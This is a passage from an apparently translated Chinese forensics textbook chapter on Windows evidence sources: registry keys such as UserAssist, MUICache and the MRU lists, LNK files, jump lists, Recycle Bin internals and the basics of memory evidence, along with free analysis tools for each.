    **壳钥研究论文** [www.dfrws.org/2009/proceedings/p69-zhu.pdf](http://www.dfrws.org/2009/proceedings/p69-zhu.pdf)**SANS壳钥博客** [computer-forensics.sans.org/blog/2011/07/05/shellbags](http://computer-forensics.sans.org/blog/2011/07/05/shellbags)**[shellbags.py](http://shellbags.py/) by Willi Ballenthin** [github.com/williballenthin/shellbags](http://github.com/williballenthin/shellbags)**sbag by TZWorks** [www.tzworks.net/prototype_page.php?proto_id=14](http://www.tzworks.net/prototype_page.php?proto_id=14)
    

##### **UserAssist** 
UserAssist键跟踪用户通过Windows资源管理器启动的应用程序：

HKEY_USERS\{SID}\Software\Microsoft\Windows\CurrentVersion\Explorer\
UserAssist

这些数据用于将用户的开始菜单填充为经常启动的程序的自定义列表。UserAssist键的解码内容包括以下内容：

- 每个可执行文件的完整路径
- 每个程序运行的次数
- 最后执行时间

听起来很像Windows预取，对吧？在很大程度上是这样的。一个主要的区别是，UserAssist *只*跟踪通过资源管理器打开的项目。这包括从运行菜单启动的程序，甚至包括从开始菜单打开的链接文件，但不包括从命令行启动的程序。相反，预取文件无法提供关于*谁*执行特定程序的上下文，也无法确定它是否在交互会话期间执行。

与壳钥一样，必须解码UserAssist值和数据才能产生可读的证据。值名称（每个可执行文件一个）是它们各自完整路径的ROT13编码版本。图12-23显示了示例UserAssist键的原始内容和解码内容。请注意，这两个屏幕截图之间显示的条目不是一一对应的匹配，因为在查看解码数据时会发生不同的排序。

以下免费工具可以从现有系统中提取和解码UserAssist键，也可以在获取的NTUSER.DAT注册表文件中提取和解码：

- **获取地址**
  
    **NirSoft的UserAssistView** [www.nirsoft.net/utils/userassist_view.html](http://www.nirsoft.net/utils/userassist_view.html)**Didier Stevens的UserAssist** [blog.didierstevens.com/2012/07/19/userassist-windows-](http://blog.didierstevens.com/2012/07/19/userassist-windows-)
    2000-thru-windows-8/
    

##### **MUICache** 
MUICache注册表键提供了另一种程序的先前执行证据来源。Windows使用此键来填充包含通过可执行文件和批处理脚本启动的完整路径的值。




Explorer (see Figure 12-24). The MUICache key values and data are stored in the
following locations:

- **Windows Vista、7、Server 2008** HKEY_USERS\{SID}_Classes\Local Settings\
Software\Microsoft\Windows\Shell\MuiCache
- **Windows XP和Server 2003** HKEY_USERS\{SID}\Software\Microsoft\
Windows\ShellNoRoam\MUICache

与每个相应值相关联的数据包含来自其版本信息资源部分的可执行文件的FileDescription，或者如果FileDescription不存在，则仅包含其文件名。请记住，FileDescription和其他PE资源版本信息字符串可以设置为任何值-恶意软件作者可以在这些字段中填充看起来合法的值。

尽管这个键的取证实用已经知道了一段时间，但Microsoft提供的文档很少。不清楚MUICache可以跟踪的可执行文件数量是否有限，并且这是否因Windows版本而异。还要注意，与UserAssist和Prefetch不同，MUICache不记录执行时间或执行频率数据。

MUICache键值和数据可读，不需要特殊解码进行分析。 NirSoft提供一个免费实用程序MUICacheView，可用于快速查看此键在实时系统上的内容：

- **到网上获取它**
  
    [www.nirsoft.net/utils/muicache_view.html](http://www.nirsoft.net/utils/muicache_view.html)
    

##### **最近使用的（MRU）键** 
Windows操作系统组件和应用程序都可以使用注册表键跟踪最近使用的（MRU）项。您可能在看到预填充最近访问的文件的文件或打开菜单时遇到过MRU。由于它们反映用户特定的活动，因此MRU键通常存储在NTUSER.DAT蜂房中，而不是在系统范围的注册表蜂房中。

应用程序不需要遵循任何标准注册表路径或值命名约定，以用于MRU键；因此，系统可能在不同位置具有数百个此类键，具体取决于安装了什么。与其试图列出所有已知的MRU，以适用于众多应用程序，我们将重点关注一些核心Windows应用程序的最重要的MRU之一。

##### **资源管理器打开和保存MRU** 
Windows资源管理器在ComDlg32下维护了多组注册表键，用于跟踪在打开和另存为对话框菜单中最近访问的文件和目录：

**Windows Vista、7和Server 2008**

- HKEY_USERS\{SID}\Software\Microsoft\Windows\CurrentVersion\
Explorer\ComDlg32\OpenPidlMRU
- HKEY_USERS\{SID}\Software\Microsoft\Windows\CurrentVersion\
Explorer\ComDlg32\LastVisitedPidlMRU
- HKEY_USERS\{SID}\Software\Microsoft\Windows\CurrentVersion\
Explorer\ComDlg32\CIDSizeMRU

**Windows XP和Server 2003**

- HKEY_USERS\{SID}\Software\Microsoft\Windows\CurrentVersion\
Explorer\ComDlg32\OpenSaveMRU
- HKEY_USERS\{SID}\Software\Microsoft\Windows\CurrentVersion\
Explorer\ComDlg32\LastVisitedMRU

许多应用程序使用这些对话框进行文件操作；因此，此证据可以帮助分析人员确定感兴趣的用户是否创建或打开了特定文件。

OpenSavePidlMRU（在早期版本的Windows中为OpenSaveMRU）跟踪使用资源管理器的打开或另存为对话框打开或保存的文件名和路径。该键组织为每个用户以前交互过的文件扩展名的子键-例如，（...）\OpenSavePidlMRU\docx\包含最近打开或保存的.docx文件。通配符子键（...）\OpenSavePidlMRU\*，包含最近打开或保存的文件，无论扩展名如何，最多有20个。

LastVisitedPidlMRU（在早期版本的Windows中为LastVisitedMRU）跟踪启动打开或另存为对话框的程序，以及每个程序最近访问的目录。这是程序可以在先前使用它的位置重新打开打开/保存对话框的方式。

CIDSizeMRU（仅在Vista及更高版本中存在）跟踪先前执行的应用程序的Explorer对话框窗口的大小和屏幕位置。

Harlan Carvey的RegRipper（[regripper.wordpress.com](http://regripper.wordpress.com/)）包括一个ComDlg32插件，可以在给定NTUSER.DAT注册表蜂房的情况下，识别和解析这些键的内容。

##### **开始菜单运行MRU** 
此键跟踪先前通过开始菜单的运行对话框执行的应用程序列表：

HKEY_USERS\{SID}\Software\Microsoft\Windows\CurrentVersion\Explorer\
RunMRU

此键中的值和数据以人类可读的纯文本形式呈现。图12-25显示了用户的开始菜单RunMRU键的示例内容，说明用户已执行ZoomIt64.exe、services.msc、cmd.exe（包括参数）和iexplore.exe。


##### **RecentDocs** 
RecentDocs键包含最近打开的文件列表（不仅仅是文档-任何扩展名），用于填充各种应用程序的“文件”菜单：

HKEY_USERS\{SID}\Software\Microsoft\Windows\CurrentVersion\Explorer\
RecentDocs

此键中的值反映了C:\Documents and Settings\%USERNAME%\Recent\中跟踪的链接（.lnk）文件。实际上，删除链接文件将自动删除RecentDocs中相应的值。

RecentDocs有其他子键，按扩展名分组之前打开的文件-每个最多10个-类似于OpenSavePidlMRU下子键的结构。分析这些键中的值可能会发现系统上不再存在的其他文件的证据-特别是对于那些不太可能填满其各自子键“历史”值并导致旧条目被覆盖的不常见扩展名。

**Internet Explorer TypedURLs和TypedPaths** Internet Explorer维护最近访问的URL列表，这些URL填充地址栏下拉菜单并支持自动完成功能：

- **所有Windows版本** HKEY_USERS\{SID}\Software\Microsoft\Internet
Explorer\TypedURLs
- **Windows Vista和更高版本** HKEY_USERS\{SID}\Software\Microsoft\Internet
Explorer\TypedPaths

这些证据可以帮助支持用户确实打算（手动键入）访问特定URL，而不仅仅是“意外点击链接”。正如其名称所示，TypedURLs注册表键跟踪用户通过键入或复制和粘贴显式输入地址栏（或在输入URL时选择自动完成建议）的URL。它不跟踪通过单击链接或关注书签访问的URL。在Internet Explorer 10之前，Windows在TypedURLs下跟踪最多25个值-url1（最近访问的）到url25，每个记录一个URL。在Internet Explorer 10及更高版本中，最大值从25增加到50。这些值中的数据是人类可读的纯文本，不需要任何进一步的解码。

在Internet Explorer 10之前，这些键不能提供足够的证据来表明何时添加了给定的url#值。 TypedURLs键的最后修改时间在其任何子值更改时更新；因此，您只能确定最近添加的URL的访问时间。但是，Internet Explorer 10引入了一个额外的键TypedURLsTime，其中包含匹配的url#值和数据，指示每个值何时添加到TypedURLs中。 Digital Forensics Stream博客有一篇有用的文章描述了TypedURLsTime键的行为：[dfstream.blogspot.com/2012/05/windows-8-typedurlstime.html。图12-26显示了TypedURL注册表键的示例。](http://dfstream.blogspot.com/2012/05/windows-8-typedurlstime.html%E3%80%82%E5%9B%BE12-26%E6%98%BE%E7%A4%BA%E4%BA%86TypedURL%E6%B3%A8%E5%86%8C%E8%A1%A8%E9%94%AE%E7%9A%84%E7%A4%BA%E4%BE%8B%E3%80%82)

如果在Windows XP系统上检查TypedURLs键，则可能会惊讶地看到本地路径（例如C:\Windows）与Internet URL混合在一起。由于Explorer和Internet Explorer之间的紧密联系，操作系统实际上以与Internet地址相同的方式跟踪显式键入的本地目录和UNC路径。因此，分析此键可以提供用户访问各种路径的证据，尽管没有提供每个路径的具体时间戳的细粒度。

在Windows Vista和更高版本上，TypedURLs不再跟踪任何本地或UNC路径。但是，不要担心-微软添加了一个完全独立的键，仅用于此目的：HKEY_USERS\{SID}\Software\Microsoft\Internet Explorer\
TypedPaths。TypedPaths的结构与TypedURLs相匹配：子值命名为url#，范围从1到25，其中url1是最近访问的目录。


##### **远程桌面 MRU** 
远程桌面连接实用程序（也称为终端服务或服务器客户端）为用户提供了建立到其他Windows系统的远程桌面协议（RDP）会话的功能。该应用程序维护了最近连接的历史记录以及每个连接特定的配置数据，存储在以下注册表键下：

- HKEY_USERS\ {SID} \Software\Microsoft\Terminal Server Client\Default\
- HKEY_USERS\ {SID} \Software\Microsoft\Terminal Server Client\Servers\

在调查的情况下，这可以是记载试图向其他系统进行横向移动的证据来源。

\Terminal Server Client\Default\密钥包含遵循命名约定MRU#的值，其中MRU0包含最近访问的IP地址或主机名。仅在成功连接时Windows才会将项目添加到MRU列表中-换句话说，如果输入的地址无法到达或无法解析，则不会存在。

Terminal Server Client\Servers\密钥包含每个地址的子密钥，这些地址在\Default\下的MRU值中被跟踪。例如，如果值\Terminal Server Client\Default\MRU0设置为192.168.1.1，则还将存在相应的子密钥(\Terminal Server Client\Servers\192.168.1.1\)。在\Servers\下的每个子密钥都可以包含用户名提示值，该值记录远程连接的默认用户名，以及CertHash值（如果远程系统在初始连接时提供了证书）。因此，这些密钥可能会告诉您一个用户通过RDP连接的位置以及他们试图作为谁登录。在\Servers\下的子密钥的最后修改时间还可以指示特定地址的配置数据上次更新的时间。

##### **注册表分析工具**

注册表分析工具通常分为两类，一类是设计用于处理和解码多种类型的证据，另一类是设计用于单个注册表工件。通常最好从前者开始；当您不确定正在查找什么或者不想要使用许多脚本和实用程序来检查您的证据时，全功能工具可以很有帮助。尽管如此，比较多个工具的输出以确保您得到完整（和准确）的证据解释总是有帮助的。

以下工具都是免费提供的，可以解析Windows注册表中的多个工件：

- **RegRipper** [regripper.wordpress.com](http://regripper.wordpress.com/)
由Harlan Carvey开发，RegRipper是可用性最广泛的注册表取证工具之一。它是围绕一组插件构建的，其中许多插件经常由Harlan和数字取证和事件响应（DFIR）社区的其他成员更新，可以识别和解码系统和用户特定蜂房中的各种注册表工件。几乎本章中涵盖的每个基于注册表的证据来源（以及我们由于空间限制而未包括的许多其他来源）都可以通过RegRipper进行处理。但是，在某些情况下，您可能会发现专用于特定类型的工件的工具具有更多的输入格式灵活性或产生更强大的输出（例如，我们更喜欢ShimCacheParser处理应用程序兼容性缓存键的方式）。尽管如此，这种全功能实用程序的便利性和广泛支持很难被超越。
- **Windows注册表解码器** [www.digitalforensicssolutions.com/](http://www.digitalforensicssolutions.com/)
registrydecoder
Registry Decoder是另一种实用程序，旨在将多个分析插件集成到单个用户界面中。尽管它不支持RegRipper那么多的注册表工件，但它确实处理了一些核心证据来源，例如常见的自动运行键、系统配置键、shellbags和交互式用户活动的其他工件。它还提供了搜索和导航注册表蜂房的内容以及通过用户界面（尽管我们发现它有时可能不太稳定）解码或解析其各种插件的输出的能力。请注意，截至本文撰写时，Registry Decoder上次更新于2012年底。
- **AutoRuns** [technet.microsoft.com/en-us/sysinternals/bb963902](http://technet.microsoft.com/en-us/sysinternals/bb963902)
AutoRuns及其附带的控制台实用程序autorunsc是Microsoft提供的热门SysInternals实用程序套件的组成部分。虽然不是严格意义上的注册表分析工具，但AutoRuns旨在识别和整合Windows系统上的数十种常见持久性机制，包括我们在本节中提到的各种键。此外，它可以检查数字签名、计算哈希值，并检索资源信息（如发布者名称），以确定被确定为持久性的任何可执行文件。这可以显着减少识别恶意自动运行所需的工作量。但是，请注意，AutoRuns只能在活动系统上运行-您无法使用它来分析从另一个来源获得的“死”获取的注册表蜂房或取证映像。
- **Redline** [www.mandiant.com/resources/download/redline](http://www.mandiant.com/resources/download/redline)
Mandiant的Redline实时响应实用程序包括几个审计模块，可以在构建收集器脚本时使用，用于检查和解析注册表。注册表模块仅生成每个键、值和数据的平面表，以及每个键的相应最后修改时间。服务模块将来自服务控制管理器、注册表和文件系统的服务信息组合在一起-这允许您检查给定服务的二进制文件的MD5哈希值和数字签名、审查其运行状态和进程ID，并检查其他属性，例如描述和名称。最后，持久性模块的操作方式与SysInternals AutoRuns实用程序类似。它识别了众多自动运行注册表键（以及一些其他非注册表持久性机制），检查它们指向的支持二进制文件，并提供元数据，例如文件时间戳、哈希值和数字签名信息。请注意，这三个收集器模块都只能在正在运行的活动系统上运行-它们无法解析从“死”获取的注册表蜂房的数据。还请注意，除了服务和自动运行之外，Redline本身不会本地解码任何其他类型的注册表键。

在本章中讨论注册表时，我们引用了许多独立的单一用途实用程序。在许多情况下，这些工具可以更好地解析它们所设计的值类型-或者至少提供比全功能实用程序更多的输入和输出选项。在以下列表中，我们列出了先前引用的实用程序，并建议一些其他实用程序：

- **ShimCacheParser** [github.com/mandiant/ShimCacheParser](http://github.com/mandiant/ShimCacheParser)
Python脚本，旨在解析Shim Cache（也称为应用程序兼容性高速缓存）。该脚本可以接受多个输入，包括“死”的或获取的注册表蜂房、系统自己的本地蜂房、二进制键/值数据以及Mandiant Intelligent Response和Redline Collector输出格式。
- **[shellbags.py](http://shellbags.py/)** [github.com/williballenthin/shellbags](http://github.com/williballenthin/shellbags)
Python脚本，旨在解析交互式Explorer使用的shellbag工件。只处理“死”和获取的注册表蜂房。
- **sbag** [www.tzworks.net/prototype_page.php?proto_id=14](http://www.tzworks.net/prototype_page.php?proto_id=14)
另一种shellbag解析实用程序。请注意，截至本文撰写时，TZWorks实用程序仅授权非商业、个人使用。
- **UserAssist，由Didier Stevens提供** [blog.didierstevens.com/2012/07/19/](http://blog.didierstevens.com/2012/07/19/)
userassist-windows-2000-thru-windows-8/
用于从用户蜂房中解析UserAssist注册表键的实用程序。
- **Nirsoft注册表分析工具**[www.nirsoft.net/windows_registry_tools.html](http://www.nirsoft.net/windows_registry_tools.html)
• [www.nirsoft.net/utils/muicache_view.html](http://www.nirsoft.net/utils/muicache_view.html)
• [www.nirsoft.net/utils/shell_bags_view.html](http://www.nirsoft.net/utils/shell_bags_view.html)
• [www.nirsoft.net/utils/userassist_view.html](http://www.nirsoft.net/utils/userassist_view.html)
• [www.nirsoft.net/utils/iecompo.html](http://www.nirsoft.net/utils/iecompo.html)

Nirsoft提供了一套大量免费使用的取证工具。它们的注册表实用程序包括MUICache、ShellBags和UserAssist键的解析器，以及Internet Explorer COM对象。请注意，这些实用程序仅在Windows上运行，并且只能显示当前系统注册表蜂房的信息-它们无法解析“死”或获取的蜂房。

**交互式会话的其他工件**

在本章的“事件日志”部分，我们介绍了用户可以登录Windows系统的不同方式以及安全事件日志记录的相应“登录类型”代码。我们将几种访问类型归类为“交互式”-即利用Windows资源管理器GUI，而不是仅限于命令行。虽然“交互式”专门指代用户在控制台时的一种登录类型（2），但是在本章中，我们还使用该术语来涵盖远程桌面会话（登录类型10）和屏幕共享（例如通过VNC或类似软件）等内容。

本章的“Windows注册表”部分还包括了一个名为“用户蜂房注册表键”的子部分，详细说明了用户交互式登录到系统时创建和修改的许多键。这些键有助于在随后的登录中维护用户配置文件的“状态”。但是，这些与交互式访问相关的工件不仅限于注册表。Windows还维护了许多文件系统工件-通常与特定用户配置文件或SID相关联-支持各种操作系统功能。如果攻击者获得交互式访问系统的权限，我们可以使用这些工件来构建更完整的其活动的图片。

在本节中，我们将突出显示三个仅通过交互式活动生成的文件系统工件：LNK文件、Jump Lists和回收站。

### **LNK文件**

Windows快捷方式文件，也称为“链接文件”，因其扩展名（.lnk）而被称为指向系统上其他文件或文件夹的指针。与符号链接不同，链接文件仅作为Windows资源管理器的扩展，而符号链接可以由任何程序透明地操作，就像它是其目标文件一样。

几种常见情况可能导致创建链接文件。用户可以通过在资源管理器中选择文件并在右键上下文菜单中选择“创建快捷方式”选项来明确选择创建链接。这将在同一目录中生成名为“[原始文件名] - 快捷方式.lnk”的链接文件。当通过Windows资源管理器打开文件时，Windows可以自动生成链接，存储在执行用户的配置文件目录中。这支持操作系统提供的最近文件功能。最后，Microsoft Office为每个用户配置文件中的最近文档生成自己的链接文件，反映了其自己的应用程序打开


#### 分析

跳转列表可以作为用户最近使用活动的另一个有用来源，特别是对于已经交互登录到系统的用户。在事件响应调查中，我们经常可以从Windows资源管理器跳转列表中恢复最近访问的目录的痕迹。远程桌面跳转列表提供了最近连接的列表，当试图构建从已知被攻击的系统进行尝试的横向移动的历史记录时，这可能是非常有价值的。对于生产力应用程序（如Microsoft Office套件甚至记事本），审查跳转列表可能提供攻击者活动期间打开和查看的文件的证据。这样的证据可以与其他源（如shellbags、MRU注册表键和LNK文件）进行比较或补充。

记录跳转列表文件的结构超出了本章的范围；然而，有几个有用的免费工具可以解析和解码它们，包括以下内容：

- **JumpLister，由WoanWare提供** www.woanware.co.uk/forensics/jumplister.html
  
    **JumpListParser (jmp)，由TZWorks提供** [tzworks.net/prototype_page.php?proto_id=20](http://tzworks.net/prototype_page.php?proto_id=20)
    

### 回收站

回收站是Windows资源管理器中用户删除文件的临时存储位置。它在Windows 95中首次引入，它允许用户在文件真正从磁盘中删除之前更改主意并恢复“已删除”文件。但是，用户可以通过同时按下del键和shift键来绕过回收站，这将立即删除选定的文件。由于回收站只是具有特定权限和特权的一组目录，因此对于取证分析师来说，恢复和重构其内容是微不足道的。

#### 证据

NTFS文件系统在以下默认路径中每个卷中包含一个回收站：

- Windows XP和Server 2003 \Recycler
- Windows Vista、7和Server 2008 \$Recycle.Bin

Windows不会为被归类为可移动存储的设备启用回收站功能，包括存储卡和USB闪存内存驱动器。但是，外部硬盘驱动器将保留它们自己的回收站，只要它们被格式化为NTFS就可以（NTFS为文件系统）。

回收站的结构在Windows Vista及更高版本中发生了重大变化，但是在所有版本的Windows中，仍然保持着一些特征。\Recycler\和\$Recycle.Bin\ 都是隐藏目录，每个目录都组织成每个使用回收站的账户SID的子目录。应用于这些目录的NTFS权限可以限制用户查看彼此的“已删除”文件。当用户通过资源管理器或其桌面图标查看回收站的内容时，实际上是查看与其SID相关联的子目录的内容，而不是根路径。图12-28说明了不同版本的Windows之间回收站路径和命名约定的比较。


#### **分析**

为了分析回收站中的证据，我们需要了解Windows在文件被“删除”并放入回收
站时所遵循的过程。我们涵盖了在Windows XP和Server 2003中的回收站与当前在Windows Vista和之后版本中实现的不同工件和元数据。最后，我们介绍攻击者如何将回收站用作分段目录，并提供了一些推荐的工具列表，您可以使用这些工具来分析回收站工件。

**\ Recycler的分析**当将文件放入回收站时，Windows使用以下约定进行重命名：

```
D <DriveLetter> <Index#> .<FileExtension>

```

- **D**是一个固定字符，将始终存在。
- *<DriveLetter>**是指从中删除文件的卷。
- *<Index#>**引用当前由回收站跟踪的已删除文件的数量。每删除一个文件或文件夹，此值会增加，并在清空回收站并重新启动系统时清除。
- *<FileExtension>**匹配文件的原始扩展名。

例如，假设用户Bob清除了Windows XP系统上的回收站，重新启动，并删除了C：\hax \ TracerT.txt。该文件将被重命名并移至C：\Recycler [Bob的SID] \ DC1.txt——其中C指源卷名称，1指索引，而.txt指文件的原始扩展名。如果Bob随后删除C：\tools\nmap.exe，则该文件将移动到C：\Recycler\<Bob的SID> \DC2.exe。

那么，Windows如何知道如何从回收站将文件重命名并还原到其原始位置？每次将新文件添加到回收站时，其关联的元数据都存储在名为\Recycler\<SID>\INFO2的隐藏文件中。INFO2文件跟踪当前存储在回收站中的每个文件的以下信息：

- 物理（而不是逻辑）文件大小
- 删除的日期和时间（存储在UTC中）
- 原始文件名和路径

因此，您可以通过获取并解析各自的INFO2文件来快速获取给定NTFS卷上任何用户的回收站内容的概述。在本节的后面，我们将介绍一些旨在帮助您做到这一点的工具。

最后，如果用户将包含其他文件的目录放入回收站会发生什么？Windows将创建一个名为\Recycler\<SID>\DC#的目录，其中#是当前回收站索引值。原始目录的内容将移动到此新路径，但将保留其原始文件名，并且不会在INFO2文件中进行跟踪。继续我们之前的例子，如果Bob决定回收C：\secrets\，并且其中包含MyPasswords.xlsx，则Windows将创建\Recycler\<Bob的SID>\DC3\MyPasswords.xlsx。

**$Recycle.Bin的分析**Vista中的回收站使用一些不同的目录路径和命名约定，但在其他方面与Windows的早期版本中的实现基本相似。每次将文件放入回收站时，操作系统都会创建两个文件：

- \$Recycle.Bin\<SID> \$I <ID_STRING> .<FileExtension>
• \$Recycle.Bin\<SID>\$R<ID_STRING>.<FileExtension>

$I和$R文件成对出现，其文件名中都有相同的<ID_STRING>。该字符串是为放置在回收站中的每个文件生成的六个字符的标识符。正如您可能期望的那样，<FileExtension>表示“删除”文件的原始扩展名。

$R文件是“删除”文件的重命名副本，类似于Windows早期版本中使用的DC#方案。 $I文件取代了INFO2作为附带元数据的来源：它包含其相关$R文件的原始名称，路径和删除日期和时间。处理已删除目录时的行为也保持类似：如果$R表示已删除的文件夹，则该路径中包含的文件保留其原始名称。

**回收站的异常使用**攻击者经常在回收站的根目录（\Recycler或$Recycle.Bin）中存储恶意软件，实用程序和窃取的数据。请记住，回收站是一个隐藏的目录，Windows Explorer总是将用户定向到特定于其SID的子目录。根目录不应包含任何文件（除了desktop.ini），但大多数用户永远不会费心检查其内容，使其成为一个伟大的藏身之处。

在事件响应调查中，我们经常会主动检查根\Recycler和$Recycle.Bin目录的内容-无论是在单个系统上还是在整个环境中进行。任何指向回收站中的可执行文件或库的持久性机制也应被视为可疑。但是，请注意，某些编写不良的应用程序也可能在回收站中留下良性但看起来恶意的工件。我们曾经看到过一些程序在错误地将文件直接移动到C：\Recycler\中以尝试删除它们。

**回收站分析工具**没有许多专用于解析回收站工件的单一目的工具；幸运的是，您只需要一个有效的工具即可。我们通常依赖于rifiuti2（[code.google.com/p/rifiuti2/）。这是一个出色的开源实用程序，能够解析Recycle](http://code.google.com/p/rifiuti2/%EF%BC%89%E3%80%82%E8%BF%99%E6%98%AF%E4%B8%80%E4%B8%AA%E5%87%BA%E8%89%B2%E7%9A%84%E5%BC%80%E6%BA%90%E5%AE%9E%E7%94%A8%E7%A8%8B%E5%BA%8F%EF%BC%8C%E8%83%BD%E5%A4%9F%E8%A7%A3%E6%9E%90Recycle) Bin INFO2和$I文件。如果您使用商业工具，则EnCase和FTK均可以解释这些文件中的元数据。

### **存储器取证**

在本章中，我们专注于一些证据来源是*不挥发性的*——即，它们可以从死亡的磁盘映像以及从活动的启动系统中恢复。但是，Windows还维护了许多重要的工件，这些工件只能在系统开机时进行恢复。这些易失性证据来源存储在内存中，而不是磁盘上，尽管其中许多可以通过Windows API访问，但是直接解析和重建内存内容会产生最可靠，最抗篡改的结果。

从内存中可以获得哪些证据？随着内存取证工具包不断发展，列表是广泛且不断增长的，但包括以下内容：

- 运行中的进程及其与之交互的系统对象/资源
- 活动网络连接
- 已加载的驱动程序
- 用户凭据（可能是哈希，混淆或甚至以明文出现）
- 非挥发性证据的一部分，例如注册表，事件日志和主文件表
- 先前执行的控制台命令的遗留部分
- 在磁盘上加密的其他纯文本数据的遗留部分
- 内核中的重要数据结构，可提供有关进程会计，行为和执行的见解

与NTFS或Windows注册表一样，内存取证是另一个复杂的主题，可以轻松地延伸到整本书的内容。在本节中，我们首先讨论组成“内存”的基本组件以及您需要收集的内容才能执行分析。然后，我们探讨了一些可以从内存中解码的工件，例如运行中的进程，句柄和内存部分。最后，我们触及了一些复杂的恶意软件技术，例如进程注入，只有通过内存取证才能有效分析。

#### 证据

与大多数现代操作系统一样，Windows提供了一个虚拟内存子系统，可以将RAM和硬盘空间一起作为运行进程的“内存”单一来源。因此，Windows系统上的“内存”由两个基本组件组成：物理内存和页面文件。因此，我们首先讨论每个重要证据来源的结构和获取过程。我们还涵盖了另外两个与内存相关的证据来源——崩溃转储和休眠文件，这些证据来源在分析Windows系统时可能会遇到。

##### 物理内存

术语“物理内存”简单地指RAM的内容。我们通过对其拍摄图像来获取物理内存的内容——原理上类似于对硬盘的图像（虽然执行方式有很大的不同）。如果您的系统上安装了4GB的RAM，则物理内存的图像将恰好为4GB。

在大多数情况下，您将使用基于软件的工具从Windows系统中获取内存，就像收集活动响应数据或其他法医证据一样。大多数内存取证软件可以在便携模式下运行（即在USB驱动器上），或通过某种已安装代理软件通过网络运行。一些取证工具包还允许您通过连接到Firewire（IEEE 1394）端口从目标系统中获取物理内存，因为该接口提供了直接内存访问。但是，截至本文撰写时，在大多数现代Windows硬件上，Firewire端口越来越不常见。

那么你拥有了一个内存映像，现在怎么办？十年前，最先进的方法是对其运行“字符串”，进行一些搜索，并希望取得最佳结果。

幸运的是，内存取证在过去十年中有了很大的进步。例如Volatility Framework和Redline等工具可以分析获取的内存映像，识别与用户进程和内核相关的内在结构，并将它们解析成可读的格式。图12-29在高层次上描述了这个工作流程。这使我们能够审查许多人工介绍的工件，例如详细的进程列表和每个进程加载的对象。在即将到来的“分析”子部分中，我们将解释如何审查这些解析结构，以及我们建议使用的工具和实用程序。


##### 页面文件

页面文件是大多数现代操作系统中内存架构的关键组件。它提供了一个次要的存储位置，通常驻留在较慢的固定驱动器上，用于运行进程所需的数据，这些数据无法容纳在物理内存中。幸运的是，对于应用程序开发人员来说，这一切都是由内核的内存管理例程在幕后处理的。用户空间内的每个运行进程都分配了一个虚拟内存空间（有效的一段内存地址），可以在其中使用它自己的内存。内核维护一个表格，跟踪虚拟内存中每个“页面”实际所在的位置-在实际的内存地址或页面文件中-并根据需要来回传送数据。当可用的RAM减少时，这种“分页”活动会更加频繁，对系统性能有害。页面文件的使用不仅限于用户空间应用程序：内核的虚拟内存部分也可以从物理RAM中分页进出。图12-30提供了虚拟内存、页面文件和物理内存之间关系的非常高级的概述。请注意，在给定的进程中，其虚拟内存空间中的数据可能存在于页面文件或物理内存的非连续区域中。

Windows默认情况下将页面文件存储在%SYSTEMDRIVE%\pagefile.sys中，但其名称和位置可以更改为任何卷甚至可以分割成多个文件。如果页面文件丢失，请参考注册表键和值HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management\PagingFiles以确定是否指定了另一个路径。

页面文件的隐藏属性已设置，并在运行系统上由操作系统进一步保护。如果您尝试使用Windows资源管理器或命令行复制它，您将收到一个访问被拒绝错误。您需要使用一个能够进行原始磁盘访问的取证实用程序来从运行系统中获取和复制此文件。


##### **崩溃转储**

在系统崩溃的情况下，Windows 可以自动生成包含部分或全部内存内容的“崩溃转储”文件。这些文件可以作为一种黑匣子，帮助开发人员调试和排除导致崩溃的条件。在一些情况下，我们发现糟糕开发的恶意软件，特别是设备驱动程序，会导致系统不稳定并导致这些组件的创建。

Windows 可以记录三种不同级别的崩溃转储数据。这些设置通过高级系统设置控制面板快捷方式向用户公开，选择启动和恢复下的设置。它们也可以通过注册表进行调整，详见此处：

- **内核内存转储** 这是 Windows Vista、7、Server 2008 及更高版本的默认设置。它包含崩溃时内核的所有读/写内存页面，以及进程和已加载驱动程序的列表。该文件的大小将根据系统上的内存量而变化，但通常在几十到几百兆字节之间。
- **小内存转储（又称 Minidump）** 包含有限的数据集，包括当前加载的驱动程序、处理器上下文、内核调用堆栈和停止的进程和线程的元数据。这些文件通常小于 5MB。Minidump 文件默认存储在 %SYSTEMROOT%\Minidump\ 中，可以通过修改注册表值 HKLM\SYSTEM\CurrentControlSet\Control\CrashControl\MinidumpDir 更改此路径。
- **完整内存转储** 包含物理内存的完整映像。这些文件将与系统上安装的物理内存量相同。用户无法通过启动和恢复 UI 选择此选项，但可以通过将注册表值 HKLM\SYSTEM\CurrentControlSet\Control\CrashControl\CrashDumpEnabled 设置为 1 来手动启用它。完整内存转储默认保存在 %SYSTEMROOT%\memory.dmp 中，可以通过修改注册表值 HKLM\SYSTEM\CurrentControlSet\Control\CrashControl\DumpFile 更改此路径。
- 注意：
  
    从 Windows Vista 和 Server 2008 开始，Windows 错误报告（WER）功能可以存储由用户模式应用程序引起的崩溃转储。这些转储文件存储在 %LOCALAPPDATA%\CrashDumps 中，并可以通过注册表键 HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\LocalDumps 进行配置。
    

完整内存崩溃转储很少启用，但如果您遇到一个，那就太幸运了。内存分析工具，如 Volatility Framework 和 Moonsols Windows Memory Toolkit，可以轻松解析这些转储，就像解析任何其他已获取的内存映像一样。另一方面，当处理内核或 Minidump 文件时，您的选项和可用数据更受限制。软件开发人员和恶意软件反向工程师通常使用 Windows 原生调试器 WinDbg 来查看这些文件。

##### **休眠文件**

Microsoft 在 Windows 98 中实现了系统休眠功能，允许用户在几乎不消耗电力的情况下保留运行中的系统状态。休眠功能的工作方式是首先将物理内存的全部内容保存到磁盘上的文件中，然后关闭系统电源。在重新启动时，Windows 会读取休眠文件的内容并将其写回内存，从而产生恢复和完整的用户会话。休眠文件的默认路径为 %SYSTEMDRIVE%\Hiberfil.sys。

如果该过程听起来像是内存影像，那么您就是对的！但是，休眠文件并不同于物理内存的原始位映像-它是压缩的，包含一些附加元数据。因此，如果您从感兴趣的系统中获取休眠文件，您需要将其转换为其他内存取证工具可以读取的格式。Volatility Framework 的 imagecopy 插件可用于将休眠文件解析为标准内存映像。

#### **内存分析**

现在，我们已经涵盖了 Windows 系统上内存证据的来源，让我们深入分析。我们将关注内存分析的一些基本构建块，然后简要介绍恶意软件作者利用的一些内存驻留攻击技术。

##### **进程**

